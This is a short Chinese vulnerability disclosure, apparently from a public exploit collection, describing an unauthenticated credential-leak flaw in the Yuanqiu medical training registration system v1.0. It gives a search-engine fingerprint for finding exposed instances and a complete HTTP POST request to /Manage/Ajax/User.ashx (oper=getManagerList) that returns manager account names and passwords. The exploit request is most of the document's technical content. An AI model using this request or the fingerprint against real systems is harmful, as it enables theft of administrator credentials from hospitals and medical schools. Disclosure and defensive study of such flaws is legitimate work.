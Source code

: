 # 远秋医学培训报名系统User存在未授权账号密码泄露漏洞

# 一、漏洞简介
远秋医学在线考试系统采用通用的试题库管理软件，适用于各级各类医学院校和医院。远秋医学在线考试系统某接口存在未授权信息泄露漏洞，攻击者可利用该漏洞获取数据库敏感信息。远秋医学培训报名系统v1.0存在未授权访问漏洞，攻击者可通过漏洞获取登录密码。

# 二、影响版本
+ 远秋医学培训报名系统v1.0

# 三、资产测绘
```plain
title="医学在线考试系统"
```

![1718993691264-f32b46f5-aee2-427a-927d-66a0611f6baa.png](./img/q7hZFjWmCGM7ykCO/1718993691264-f32b46f5-aee2-427a-927d-66a0611f6baa-072615.png)

# 四、漏洞复现
```java
POST /Manage/Ajax/User.ashx/ HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

oper=getManagerList&name=&code=&depart=&page=1&rows=15
```

![1718993591536-7d8aac13-27e1-4b71-a358-2f92fd9f2d47.png](./img/q7hZFjWmCGM7ykCO/1718993591536-7d8aac13-27e1-4b71-a358-2f92fd9f2d47-022364.png)



> 更新: 2024-08-28 15:30:39  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xp1atq8wl0rmv68n>